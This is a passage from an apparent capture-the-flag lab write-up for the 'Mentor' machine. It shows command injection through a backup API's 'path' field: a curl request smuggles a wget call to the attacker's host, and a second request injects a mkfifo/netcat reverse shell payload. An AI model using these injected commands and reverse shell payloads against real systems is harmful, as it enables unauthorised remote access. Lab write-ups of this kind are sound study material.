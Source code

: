 I don't really know what they are doing in the backend, but we can try some command injection point just in case.&#x20;

{% code overflow="wrap" %}
```
$ curl -X POST http://api.mentorquotes.htb/admin/backup -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' -H 'Content-Type: application/json' -d '{"path":"/etc/passwd; wget 10.10.14.13/rcecfm"}' | jq

{
  "INFO": "Done!"
}
// in another shell
┌──(kali㉿kali)-[~/htb/mentor]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.228.102 - - [08/May/2023 11:01:18] code 404, message File not found
10.129.228.102 - - [08/May/2023 11:01:18] "GET /rcecfm/app_backkup.tar HTTP/1.1" 404
```
{% endcode %}

This was using `tar` on something, but more importantly our RCE worked. We can easily get a reverse shell using this after specifying some random `body` parameter:

{% code overflow="wrap" %}
```http
POST /admin/backup HTTP/1.1
Host: api.mentorquotes.htb
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 112

{
"body":"test",
"path": "test;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.13 443 >/tmp/f;"
}
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (3159).png" alt=""><figcaption></figcaption></figure>
